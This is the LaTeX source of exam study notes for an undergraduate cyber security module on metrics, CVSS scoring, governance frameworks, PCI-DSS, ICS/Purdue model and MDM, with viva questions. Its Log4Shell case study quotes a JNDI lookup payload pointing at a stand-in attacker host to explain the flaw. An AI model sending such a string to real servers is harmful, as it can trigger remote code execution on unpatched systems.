\documentclass[12pt,a4paper]{article}

% ─── Page Layout ───────────────────────────────────────────────────────────────
\usepackage[a4paper, margin=0.8in, headheight=14pt]{geometry}

% ─── Fonts (XeLaTeX) ───────────────────────────────────────────────────────────
\usepackage{fontspec}
\usepackage{unicode-math}
\setmainfont{TeX Gyre Pagella}
\setmonofont[Scale=0.88]{TeX Gyre Cursor}
\setmathfont{Latin Modern Math}

% ─── Packages ──────────────────────────────────────────────────────────────────
\usepackage{xcolor}
\usepackage{colortbl}
\usepackage{titlesec}
\usepackage{enumitem}
\usepackage{tabularx}
\usepackage{booktabs}
\usepackage{array}
\usepackage{amsmath}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric, arrows.meta, positioning, calc, fit, decorations.pathreplacing}
\usepackage{tcolorbox}
\tcbuselibrary{skins, breakable}
\usepackage{hyperref}
\usepackage{fancyhdr}
\usepackage{graphicx}
\usepackage{microtype}
\hyphenpenalty=10000
\exhyphenpenalty=10000
\sloppy
\usepackage{caption}
\usepackage{setspace}
\usepackage{multirow}
\usepackage{tocloft}

% ─── Q&A helper ────────────────────────────────────────────────────────────────
\newcommand{\Q}[1]{\textbf{#1}\par\noindent\ignorespaces}

% ─── Colour Palette ────────────────────────────────────────────────────────────
\definecolor{myred}{RGB}{196,30,58}
\definecolor{mydark}{RGB}{30,30,50}
\definecolor{mygreen}{RGB}{14,120,80}
\definecolor{myteal}{RGB}{0,130,140}
\definecolor{myamber}{RGB}{180,100,0}
\definecolor{mypurple}{RGB}{100,30,160}
\definecolor{mygray}{RGB}{246,247,249}
\definecolor{mgframe}{RGB}{180,185,200}
\definecolor{watermark}{RGB}{145,150,170}
\definecolor{hdrred}{RGB}{250,232,235}
\definecolor{hdrgreen}{RGB}{220,244,233}
\definecolor{hdrteal}{RGB}{220,242,244}
\definecolor{hdramber}{RGB}{253,242,215}
\definecolor{hdrpurple}{RGB}{238,228,255}
\definecolor{hdrgray}{RGB}{238,240,245}
\definecolor{rowalt}{RGB}{250,251,253}

% ─── Section Formatting ────────────────────────────────────────────────────────
\titleformat{\section}
  {\large\bfseries\color{myred}}{\thesection.}{0.5em}{}
  [\vspace{1pt}{\color{myred}\rule{\linewidth}{0.8pt}}]
\titleformat{\subsection}
  {\normalsize\bfseries\color{myteal}}{\thesubsection}{0.5em}{}
\titlespacing*{\section}{0pt}{18pt}{7pt}
\titlespacing*{\subsection}{0pt}{11pt}{4pt}

% ─── Paragraph ─────────────────────────────────────────────────────────────────
\setlength{\parindent}{0pt}
\setlength{\parskip}{4pt}

% ─── TOC Styling ───────────────────────────────────────────────────────────────
\renewcommand{\cfttoctitlefont}{\large\bfseries\color{myred}}
\renewcommand{\cftaftertoctitle}{\par\noindent{\color{myred}\rule{\linewidth}{0.8pt}}}
\setlength{\cftbeforetoctitleskip}{0pt}
\setlength{\cftaftertoctitleskip}{6pt}
\renewcommand{\cftsecfont}{\normalsize\bfseries\color{mydark}}
\renewcommand{\cftsecpagefont}{\normalsize\bfseries\color{mydark}}
\renewcommand{\cftsecleader}{\cftdotfill{\cftdotsep}}
\setlength{\cftbeforesecskip}{7pt}
\renewcommand{\cftsubsecfont}{\small\color{mydark}}
\renewcommand{\cftsubsecpagefont}{\small\color{mydark}}
\setlength{\cftbeforesubsecskip}{3pt}
\setlength{\cftsubsecindent}{1.4em}

% ─── Table helpers ─────────────────────────────────────────────────────────────
\renewcommand{\arraystretch}{1.45}
\setlength{\tabcolsep}{6pt}
\arrayrulecolor{mydark}
\newcolumntype{B}[1]{>{\small\bfseries\raggedright\arraybackslash}m{#1}}
\newcolumntype{C}[1]{>{\centering\arraybackslash}m{#1}}
\newcolumntype{Y}{>{\small\raggedright\arraybackslash}X}
\renewcommand{\tabularxcolumn}[1]{m{#1}}

% ─── Header / Footer ───────────────────────────────────────────────────────────
\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{\small\color{myred}\textbf{OE-EC803C}\;\color{mydark}--- Cyber Security}
\fancyhead[R]{\small\color{myteal}\textbf{Module 2 Notes}}
\fancyfoot[C]{\small\color{mydark}\thepage}
\fancyfoot[R]{\small\color{watermark}\textit{\copyright\ Biraj Sarkar}}
\renewcommand{\headrulewidth}{0.5pt}
\renewcommand{\footrulewidth}{0.3pt}

% ─── Hyperref ──────────────────────────────────────────────────────────────────
\hypersetup{
  colorlinks=true, linkcolor=myteal, urlcolor=myteal,
  pdfauthor={Biraj Sarkar},
  pdftitle={OE-EC803C --- Module 2 Notes}
}

% ─── tcolorbox styles ──────────────────────────────────────────────────────────
\tcbset{
  tikzbox/.style={
    colback=mygray, colframe=mgframe, boxrule=0.6pt, arc=4pt,
    left=8pt, right=8pt, top=6pt, bottom=6pt,
    colbacktitle=mgframe, coltitle=mydark,
    fonttitle=\small\bfseries
  },
  defbox/.style={
    colback=hdrgreen, colframe=mygreen, boxrule=0.8pt, arc=4pt,
    left=9pt, right=9pt, top=6pt, bottom=6pt,
    colbacktitle=mygreen, coltitle=white,
    fonttitle=\small\bfseries
  },
  formulabox/.style={
    colback=hdrteal, colframe=myteal, boxrule=0.8pt, arc=4pt,
    left=9pt, right=9pt, top=7pt, bottom=7pt,
    colbacktitle=myteal, coltitle=white,
    fonttitle=\small\bfseries
  },
  examplebox/.style={
    colback=hdramber, colframe=myamber, boxrule=0.8pt, arc=4pt,
    left=9pt, right=9pt, top=6pt, bottom=6pt,
    colbacktitle=myamber, coltitle=white,
    fonttitle=\small\bfseries
  },
  masonbox/.style={
    colback=hdrpurple, colframe=mypurple, boxrule=0.8pt, arc=4pt,
    left=9pt, right=9pt, top=6pt, bottom=6pt,
    colbacktitle=mypurple, coltitle=white,
    fonttitle=\small\bfseries
  },
  exambox/.style={
    colback=hdrpurple, colframe=mypurple, boxrule=1pt, arc=5pt,
    left=10pt, right=10pt, top=8pt, bottom=8pt,
    colbacktitle=mypurple, coltitle=white, fonttitle=\bfseries,
    breakable, title after break={\textbf{Frequently Asked / Viva Questions (contd.)}}
  }
}
\tcbset{breakable}

% ─── TikZ styles ───────────────────────────────────────────────────────────────
\tikzset{
  block/.style={rectangle, draw=myteal, fill=hdrteal,
    text width=2.2cm, align=center, minimum height=0.9cm,
    font=\small, rounded corners=3pt, line width=0.7pt},
  redblock/.style={rectangle, draw=myred, fill=hdrred,
    text width=2.2cm, align=center, minimum height=0.9cm,
    font=\small, rounded corners=3pt, line width=0.7pt},
  arrow/.style={-Stealth, thick, color=mydark},
  redarrow/.style={-Stealth, thick, color=myred},
  line/.style={thick, color=mydark}
}

\begin{document}

% ═══════════════════════════════════════════════════════════════════════════════
% TITLE BLOCK
% ═══════════════════════════════════════════════════════════════════════════════
\begin{center}
  \hfill \textit{Exam-Ready Short Notes} \\
  \vspace{6pt}
  {\LARGE\bfseries\color{myred} OE-EC803C --- Cyber Security}\\[5pt]
  {\normalsize\color{mydark} Semester VIII \quad$\bullet$\quad 3L:0T:0P \quad$\bullet$\quad 3 Credits}\\[3pt]
  {\normalsize\color{myteal}\textbf{Module 2: Cyber Security Objectives, Guidance \& Frameworks}}\\[3pt]
  {\small\color{mydark} CGEC \;$|$\; B.Tech ECE (2023--27) \;$|$\; \textit{Biraj Sarkar}}
\end{center}
\vspace{2pt}
\noindent{\color{myred}\rule{\linewidth}{1.5pt}}
\vspace{2pt}

\hypersetup{linkcolor=mydark}
\tableofcontents
\hypersetup{linkcolor=myteal}
\newpage

% ===============================================================================
\section{Cyber Security Metrics \& Vulnerability Scoring}
% ===============================================================================

Cyber Security Metrics quantify the effectiveness of an enterprise security management system and provide decision-makers with actionable performance indicators.

\begin{tcolorbox}[defbox, title={\textbf{Definition: Operational Security Metrics}}]
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Mean Time to Detect (MTTD):} Average time elapsed between a security compromise occurring and its detection by Security Operations Center (SOC) analysts.
  \item \textbf{Mean Time to Respond/Remediate (MTTR):} Average time required to contain, eradicate, and restore systems after a verified security incident.
  \item \textbf{Common Vulnerability Scoring System (CVSS):} Open industry standard for measuring software flaw severity ($0.0\text{ to }10.0$ scale).
  \item \textbf{CVE \& NVD Cataloging:} Common Vulnerabilities and Exposures (CVE) IDs (e.g., CVE-2021-44228) indexed by the US NIST National Vulnerability Database (NVD).
\end{itemize}
\end{tcolorbox}

\subsection{CVSS v3.1 Metric Vectors}
CVSS computes a base score combining Exploitability and Impact metrics:
\begin{enumerate}[leftmargin=*, itemsep=3pt]
  \item \textbf{Attack Vector (AV):} Network (N), Adjacent (A), Local (L), Physical (P).
  \item \textbf{Attack Complexity (AC):} Low (L) vs High (H).
  \item \textbf{Privileges Required (PR):} None (N), Low (L), High (H).
  \item \textbf{User Interaction (UI):} None (N) vs Required (R).
  \item \textbf{Scope (S):} Unchanged (U) vs Changed (C).
  \item \textbf{CIA Impact (C/I/A):} High (H), Low (L), None (N).
\end{enumerate}

{\renewcommand{\arraystretch}{1.45}%
\begin{tabularx}{\linewidth}{|B{3.2cm}|B{2.8cm}|Y|}
\hline
\textbf{CVSS Score Range} & \textbf{Severity Rating} & \textbf{SLA Patching Requirement} \\
\hline
0.0 & None & No vulnerability action required. \\
\hline
0.1 -- 3.9 & Low & Remediate during routine quarterly maintenance. \\
\hline
4.0 -- 6.9 & Medium & Apply vendor patch within 30 days. \\
\hline
7.0 -- 8.9 & High & Apply vendor security update within 7 days. \\
\hline
9.0 -- 10.0 & Critical & Emergency hotfix required within 24--48 hours. \\
\hline
\end{tabularx}}

\begin{tcolorbox}[examplebox, title={\textbf{Real-World Case Study: Log4Shell Vulnerability (CVE-2021-44228)}}]
\begin{enumerate}[leftmargin=*, itemsep=3pt]
  \item \textbf{CVSS Rating:} Perfect \textbf{10.0 Critical} score (`AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`).
  \item \textbf{Flaw Mechanism:} Apache Log4j2 Java logging library improperly parsed JNDI lookups (e.g. `\${jndi:ldap://attacker.com/a}`).
  \item \textbf{Impact:} Allowed unauthenticated attackers to execute arbitrary Remote Code Execution (RCE) on millions of enterprise web servers worldwide with a single HTTP text string.
\end{enumerate}
\end{tcolorbox}

% ===============================================================================
\section{Security Governance Frameworks}
% ===============================================================================

Enterprise security frameworks provide structured guidelines to establish, audit, and maintain security baselines.

\begin{tcolorbox}[tikzbox, title={NIST Cybersecurity Framework (CSF) 5 Core Cycle}]
\centering

\begin{tikzpicture}[node distance=0.3cm and 0.5cm,
  fnnode/.style={rectangle, draw=myteal, fill=hdrteal, text width=2.2cm, align=center, minimum height=0.9cm, font=\small\bfseries, rounded corners=4pt, line width=0.8pt},
  arrow/.style={-Stealth, thick, color=myred, line width=1.1pt}]

  \node[fnnode] (id) at (0,0) {IDENTIFY\\(Asset/Risk)};
  \node[fnnode] (pr) at (2.7,0) {PROTECT\\(Safeguards)};
  \node[fnnode] (dt) at (5.4,0) {DETECT\\(Monitoring)};
  \node[fnnode] (rs) at (8.1,0) {RESPOND\\(Containment)};
  \node[fnnode] (rc) at (10.8,0) {RECOVER\\(Restoration)};

  \draw[arrow] (id) -- (pr);
  \draw[arrow] (pr) -- (dt);
  \draw[arrow] (dt) -- (rs);
  \draw[arrow] (rs) -- (rc);

\end{tikzpicture}
\end{tcolorbox}

\subsection{ISO/IEC 27001 ISMS Controls}
ISO/IEC 27001 is the international certifiable standard for an Information Security Management System (ISMS):
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Plan-Do-Check-Act (PDCA) Cycle:} Continuous security governance improvement model.
  \item \textbf{Annex A Controls (93 Controls):} Grouped into 4 themes: Organizational Controls (37), People Controls (8), Physical Controls (14), and Technological Controls (34).
\end{itemize}

% ===============================================================================
\section{Sector-Specific Security: E-Commerce, ICS \& Mobile}
% ===============================================================================

\subsection{PCI-DSS E-Commerce Security Architecture}
The Payment Card Industry Data Security Standard (PCI-DSS v4.0) mandates 12 core security requirements across 6 goals:

{\renewcommand{\arraystretch}{1.45}%
\begin{tabularx}{\linewidth}{|B{4.5cm}|Y|}
\hline
\textbf{PCI-DSS Core Goal} & \textbf{Mandatory Security Control Requirement} \\
\hline
Secure Network & Install and maintain firewalls; prohibit vendor default passwords. \\
\hline
Protect Cardholder Data & Encrypt cardholder data in transit (TLS 1.3) and at rest (AES-256). \\
\hline
Vulnerability Program & Protect systems against malware; develop secure web apps (OWASP Top 10). \\
\hline
Strong Access Control & Restrict access by business need-to-know; enforce MFA for all access. \\
\hline
Monitor \& Test Networks & Track and monitor all network access; perform quarterly penetration tests. \\
\hline
Information Security Policy & Maintain formal security policy and conduct annual compliance audits. \\
\hline
\end{tabularx}}

\subsection{Industrial Control Systems (ICS / SCADA) and Purdue Model}
Operational Technology (OT) manages physical industrial processes (power grids, oil pipelines):
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Purdue Enterprise Reference Architecture (PERA):}
    \begin{itemize}
      \item \textit{Level 0--1:} Physical process sensors, actuators, and Programmable Logic Controllers (PLCs).
      \item \textit{Level 2:} Control systems (SCADA HMIs, operator consoles).
      \item \textit{Level 3:} Site manufacturing operations (historians, OT monitoring).
      \item \textit{Level 3.5:} Industrial Demilitarized Zone (IDMZ) air gap firewalls separating OT from enterprise IT (Levels 4--5).
    \end{itemize}
\end{itemize}

\subsection{BYOD and Mobile Device Management (MDM)}
Bring Your Own Device (BYOD) allows personal employee devices on corporate networks:
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{MDM Controls:} Enforcing storage encryption, remote wipe capabilities, and passcode length.
  \item \textbf{App Containerization:} Creating encrypted sandboxed zones separating personal apps from corporate email/data.
\end{itemize}

% ===============================================================================
\section{Policy Lifecycle, Documentation \& Taxonomy}
% ===============================================================================

\begin{tcolorbox}[defbox, title={\textbf{Policy as a Project \& Policy Taxonomy}}]
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Tone at the Top:} Executive leadership's active support, funding, and visible enforcement of security policies across the enterprise.
  \item \textbf{Policy as a Project:} Managing policy authoring through formal project management phases: Initiation $\to$ Drafting $\to$ Stakeholder Review $\to$ Legal Approval $\to$ Publication $\to$ Annual Maintenance.
  \item \textbf{Policy Catalog Approach:} A centralized, version-controlled repository structuring all corporate security policies under a standardized taxonomy.
\end{itemize}
\end{tcolorbox}

% ═══════════════════════════════════════════════════════════════════════════════
% QUICK REVISION PAGE
% ═══════════════════════════════════════════════════════════════════════════════
\newpage
\begin{center}
  {\large\bfseries\color{myred} Quick Revision --- Module 2}\\[3pt]
  {\small\color{mydark} Cyber Security Objectives, Guidance \& Frameworks $|$ OE-EC803C}
\end{center}
\noindent{\color{myred}\rule{\linewidth}{1.2pt}}
\vspace{4pt}

\begin{tcolorbox}[formulabox, title={\textbf{Key Concepts and Metrics at a Glance}}]
\renewcommand{\arraystretch}{1.35}
\begin{tabularx}{\linewidth}{B{4.8cm} X}
NIST CSF Core 5 & Identify, Protect, Detect, Respond, Recover. \\[3pt]
CVSS Score Ranges & Critical ($9.0\text{--}10.0$), High ($7.0\text{--}8.9$), Medium ($4.0\text{--}6.9$), Low ($0.1\text{--}3.9$). \\[3pt]
PCI-DSS Standard & 12 mandatory security goals for organizations processing credit card payments. \\[3pt]
Log4Shell Flaw & CVSS 10.0 Remote Code Execution (RCE) flaw in Apache Log4j2 JNDI parsing. \\[3pt]
Purdue Level 3.5 & Industrial DMZ (IDMZ) air gap isolating OT control networks from enterprise IT.
\end{tabularx}
\end{tcolorbox}

\begin{tcolorbox}[defbox, title={\textbf{One-Line Definitions}}]
\begin{itemize}[leftmargin=*, itemsep=2pt, topsep=0pt]
  \item \textbf{Tone at the Top:} Visible executive backing essential for organizational security compliance.
  \item \textbf{MDM Containerization:} Encrypted sandboxing separating corporate data from personal phone storage.
  \item \textbf{SCADA HMI:} Human-Machine Interface allowing operators to control industrial physical machinery.
  \item \textbf{MTTD / MTTR:} Mean Time to Detect vs Mean Time to Respond/Remediate security breaches.
\end{itemize}
\end{tcolorbox}

\begin{tcolorbox}[exambox, title={\textbf{Frequently Asked / Viva Questions}}]
\begin{enumerate}[leftmargin=*, label=\textbf{Q\arabic*.}, itemsep=5pt, topsep=0pt]
  \item \Q{Name the 5 core functions of the NIST Cybersecurity Framework (CSF).}
        Identify, Protect, Detect, Respond, and Recover.

  \item \Q{What is CVSS and how are its score ranges categorized?}
        Common Vulnerability Scoring System ($0\text{--}10$ scale): Low ($0.1\text{--}3.9$), Medium ($4.0\text{--}6.9$), High ($7.0\text{--}8.9$), Critical ($9.0\text{--}10.0$).

  \item \Q{Explain the Log4Shell (CVE-2021-44228) case study.}
        A CVSS 10.0 flaw in Log4j2 where unauthenticated JNDI lookup strings executed arbitrary Remote Code Execution (RCE) on servers.

  \item \Q{What is PCI-DSS and what does it mandate for cardholder data?}
        Payment Card Industry Data Security Standard; mandates encrypted storage (AES-256), TLS 1.3 transit encryption, and quarterly vulnerability scans.

  \item \Q{Explain the Purdue Model Level 3.5 in OT/SCADA security.}
        The Industrial DMZ (IDMZ) containing firewalls and proxy servers that physically and logically separate enterprise IT networks from critical OT plant networks.

  \item \Q{What is Mobile Device Management (MDM)?}
        An enterprise administration platform enforcing passcode complexity, storage encryption, containerization, and remote wipe capabilities on smartphones.

  \item \Q{Differentiate between MTTD and MTTR.}
        MTTD measures average time taken to detect a breach; MTTR measures average time taken to contain and remediate the breach.

  \item \Q{What is ISO/IEC 27001 Annex A?}
        A set of 93 security controls across 4 operational themes (Organizational, People, Physical, Technological) required for ISMS certification.

  \item \Q{What is Tone at the Top in security management?}
        Executive leadership's active support, funding, and personal adherence to security policies, establishing an organizational security culture.

  \item \Q{Explain the concept of Policy as a Project.}
        Structuring policy creation through formal lifecycle phases: Initiation $\to$ Drafting $\to$ Stakeholder Review $\to$ Approval $\to$ Publication $\to$ Maintenance.

  \item \Q{What is a CVE ID?}
        A unique public identifier (e.g. CVE-2023-1234) assigned to specific software security vulnerabilities cataloged in the NIST NVD.

  \item \Q{Why are legacy SCADA systems difficult to patch?}
        Because industrial PLCs require 24/7 continuous operation, cannot tolerate software reboot downtime, and lack basic hardware encryption support.

  \item \Q{What is App Containerization in BYOD mobile security?}
        Creating an encrypted, isolated partition on an employee's personal device to run corporate apps without accessing personal photos or data.

  \item \Q{Explain the 4 themes of ISO/IEC 27001:2022 controls.}
        Organizational Controls (37), People Controls (8), Physical Controls (14), and Technological Controls (34).

  \item \Q{What is an SLA in vulnerability remediation?}
        Service Level Agreement dictating mandatory timeframes to patch vulnerabilities based on CVSS severity (e.g., Critical patched within 24--48 hours).
\end{enumerate}
\end{tcolorbox}

\begin{tcolorbox}[tikzbox, title={Summary Comparison: Industry Security Frameworks}]
\centering
{\renewcommand{\arraystretch}{1.45}%
\begin{tabularx}{\linewidth}{|B{2.8cm}|Y|Y|Y|}
\hline
\textbf{Framework} & \textbf{Primary Focus} & \textbf{Audit Type} & \textbf{Target Audience} \\
\hline
NIST CSF & Risk Reduction & Self-Assessment & Critical Infrastructure \& Enterprise \\
\hline
ISO/IEC 27001 & Formal ISMS Audit & Accredited Third-Party & Global Corporations \\
\hline
PCI-DSS v4.0 & Payment Card Safety & Qualified Assessor & Merchants \& Gateways \\
\hline
CIS Controls & Technical Defenses & Implementation Group & SOC \& IT Engineers \\
\hline
\end{tabularx}}
\end{tcolorbox}

\end{document}
